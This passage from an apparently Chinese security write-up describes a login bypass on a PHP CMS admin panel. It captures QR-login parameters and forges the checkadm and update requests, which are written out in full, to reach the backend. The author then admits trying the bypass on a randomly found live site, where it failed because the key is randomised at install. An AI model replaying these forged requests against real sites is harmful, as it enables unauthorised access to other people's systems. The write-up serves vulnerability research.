 2. 进行登录绕过

首先点击生成二维码，并抓取请求

![image-20231029223354444](https://shs3.b.qianxin.com/butian_public/f25693574ea6ec2fa0c56a512aa619a01479e4e0bc2a0.jpg)

提取fid和content的值，构造二维码链接内容

```url
/admin.php?c=login&f=mobile&fid=a9vLrUxOHh7lGBpOvl0X1YZq31VEoBRj&content=98f74dWIq9Fxl3ylM9PTGN5t7uLXvxUjkBvgGN8Gi3R3vUXDr+CUy39CuedoZEs1VhBcRGsHJyslvZZxA4ymf4s12N2\/oFNbDhIeMtuj53uEp\/VL00EFK1emBS22iR4htlxmCvChgKcOeZvTjZIrtGI57wH\/s
```

提取页面中`fcode`的值

![image-20231029223402092](https://shs3.b.qianxin.com/butian_public/f785174d1aeaeaa1fa9ec707385f2242e087b08374977.jpg)

然后构造`checkadm`请求，用`fid`文件内容密钥加密admin信息

```php
/admin.php?c=login&f=checkadm&fid=a9vLrUxOHh7lGBpOvl0X1YZq31VEoBRj&content=bdd983NgUnCTROK1Ksf7\/brkwgpThiRBRoWfgRzzVducS7Fzg1ND9mbR3mNGg6R6VvAy2CVIaMOwOyAa7PbZgZWkzspzFBs4oWPY1VcJyQ0xZ3WmSXsIXEiFSuXYqMcLpMXFs
```

此时的`content`值为最前面代码生成的值

![image-20231029223405893](https://shs3.b.qianxin.com/butian_public/f463533563f35bde1b4fa535652910973f535e0c6fa24.jpg)

最后构造`update`请求

```php
/admin.php?c=login&f=update&fid=a9vLrUxOHh7lGBpOvl0X1YZq31VEoBRj&fcode=IuTqXDTrmZ&quickcode=5763e7yWM3LaZJQTPPSlkZFkTFx6omzreRjsbYXPaoAIiC1hhKNXxRczafeiIAeBbQh7yryr5kK95L5H6DTne06PB0P7gJEwEszkv3uxGqEJawXLczrMe5ifwr2BcEls8bpuA
```

`quickcode`为上一步返回包中`logincode`的值

![image-20231029223602797](https://shs3.b.qianxin.com/butian_public/f42980475d029a060606583c4df7e110aff4ae31f6944.jpg)

成功进入后台。哎！出洞了！！亏贼！！！

0x05 小丑时刻
---------

当我兴高采烈找个站测试时，发送`checkadmin`请求时提示**数据解码失败**报错了！wtf？！

![image-20231030143645784](https://shs3.b.qianxin.com/butian_public/f669114828ed5f43955669e1751ded3887757c4f76c38.jpg)

难道`api_code`不是安装默认的？

翻找了初始化SQL文件，并没找到有关`api_code`设置语句，全局搜索`api_code`，在安装文件中找到了绝望的一句话，芭比Q了

![image-20231029225007931](https://shs3.b.qianxin.com/butian_public/f610768959685e771d123af397df2d795a7878727c168.jpg)

开发真不给机会啊，这下真小丑了！
